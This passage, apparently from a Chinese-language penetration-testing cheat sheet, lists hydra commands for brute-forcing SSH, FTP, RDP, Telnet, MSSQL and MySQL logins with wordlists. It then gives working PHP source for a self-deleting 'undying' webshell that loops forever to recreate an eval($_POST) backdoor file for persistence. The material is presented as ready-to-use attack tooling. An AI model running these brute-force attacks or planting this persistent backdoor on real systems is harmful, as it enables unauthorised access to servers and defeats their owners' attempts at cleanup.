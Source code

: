 爆破SSH密码

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ssh
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100 -s 40      //40是⽬标服务开放的端⼝
```

爆破FTP密码

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ftp
hydra -L 用户名字典.txt -P 密码字典.txt ftp://192.168.1.100/
```

爆破RDP远程桌面密码

```c
hydra 目标IP地址 rdp -l administrator -P 密码字典.txt -V
```

爆破Telnet

```c
hydra 目标IP地址 telnet -l 用户字典.txt -P 密码字典.txt -f -V
```

爆破MSSQL数据库

```c
hydra -l sa -P 密码字典.txt 目标IP地址 mssql
```

爆破MySQL数据库

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 mysql
```

### 3.3# 内网渗透

#### 3.3.1 权限维持之不死马

简单不死马：

```php
<?php
set_time_limit(0);   //PHP脚本限制了执行时间，set_time_limit(0)设置一个脚本的执行时间为无限长
ignore_user_abort(1);  //ignore_user_abort如果设置为 TRUE，则忽略与用户的断开，脚本将后台运行
unlink(__FILE__);     //删除自身

while(1)
{
    file_put_contents('shell.php','<?php @eval($_POST["AabyssTeam"]);?>');  //创建shell.php
    sleep(0);    //间隔时间
}
```

可以通过不断复写 `shell.php` 来达到该木马难以被使用的效果

